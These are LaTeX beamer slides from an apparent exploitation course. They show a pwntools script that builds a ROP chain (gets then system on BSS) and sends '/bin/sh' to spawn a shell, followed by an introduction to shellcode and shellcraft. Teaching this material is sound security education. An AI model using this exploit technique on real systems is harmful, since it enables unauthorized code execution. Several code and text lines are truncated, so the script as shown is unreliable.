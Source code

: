\documentclass[aspectratio=169]{beamer}
\newcommand{\docl}[1]{(\textbf{\href{#1}{Documentation}})}
\begin{document}
{\begin{frame}[fragile]
	\frametitle{Sploiting automation 2}
	\begin{codebox}{python}
# ... from before
rop = ROP(exe)
rop.gets(exe.bss(0x20))
rop.system(exe.bss(0x20))
log.info("BSS at 0x%
print(rop.dump())

payload = fit({ 0: b"", offset: rop.chain() })
log.info("Payload: %
io = start()
io.sendline(payload)
io.sendline(b"/bin/sh\0")
io.interactive()\end{codebox}

\end{frame}


\subsection{Shellcoding}
\begin{frame}
    \frametitle{What is Shellcode?}
    \begin{itemize}
        \item small piece of - usually - handwritten assembly code
        \item often used for getting a shell more easily
        \item write final assembled machine code into executable area, then make execution jump to there
        \begin{itemize}
            \item works well if you already have a writable and executable section (not often anymore)
            \item otherwise, you first have to change protection yourself before executing
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Shellcraft \docl{http://docs.pwntools.com/en/stable/shellcraft/amd64.html}}
    \begin{itemize}
        \item assembly is written in intel syntax
        \item shellcraft is pwntools module containing functions that are used a lot
        \item functions all return a string of assembly code
        \item call them with  for the default architecture or  for a specific one
    \end{itemize}
\end{frame}

}
\end{document}
